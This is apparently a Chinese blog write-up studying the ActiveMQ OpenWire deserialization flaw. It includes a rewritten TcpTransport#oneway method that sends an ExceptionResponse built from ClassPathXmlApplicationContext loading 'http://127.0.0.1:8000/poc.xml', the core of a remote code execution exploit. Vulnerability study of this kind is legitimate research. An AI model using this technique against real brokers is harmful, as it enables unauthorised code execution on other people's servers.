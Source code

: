 但是默认的demo 中我们发送的是一个 ObjectMessage (ActiveMQObjectMessage) 对象, 它的 dataType 是 26

![image-20240105214340742](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240105214340742.png)

我的第一想法就是直接改成31不就行了嘛(这里还没懂，下面是佬们的想法)

```java
我一开始的思路是去修改 ObjectMessage 的 DATA_STRUCTURE_TYPE 字段, 把它改成 31 然后发送

后来想了一会发现不能这么搞, 因为对于不同的 Message 类型, 序列化器会单独进行处理, 比如调用 writeXXX 和 readXXX 的类型和次数都不一样
```

然后目光放到了传参这里，dataType是从dis中获得的，那么控制dis不就可以控制dataType了嘛~~~

![image-20240105214725528](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240105214725528.png)

就是在这里

![image-20240105214852297](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240105214852297.png)

![image-20240105215045552](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240105215045552.png)

上面是反序列化我们直接看序列化的流程即可

看marshal的上层调用方法，是 `TcpTransport#oneway`

![image-20240106121736421](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240106121736421.png)

```java
这里是原本的内容
//    public void oneway(Object command) throws IOException {
//        this.checkStarted();
//        this.wireFormat.marshal(command, this.dataOut);
//        this.dataOut.flush();
//    }
这里是重写的内容
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
    this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```

可以发现我们直接重写了方法，ExceptionResponse的参数需要是Throwable类型，`Throwable obj = new ClassPathXmlApplicationContext`这里也重写了ClassPathXmlApplicationContext这个类，让它继承否则不能强转，能执行上面的操作

`其实都是因为，序列化的时候可以修改并且反序列化并不会被影响`(jackson就重写了某个类的方法不然不能序列化，但我觉得仅仅是序列化赋值，因为反序列化的代码我们是不能改动的，只是把值放进去了)

脑子的错误思考

```java
既然可以修改序列化，那直接重写方法直接弹shell？？？
确实是可以赋值，但具体的操作还是得看反序列化~~~
```
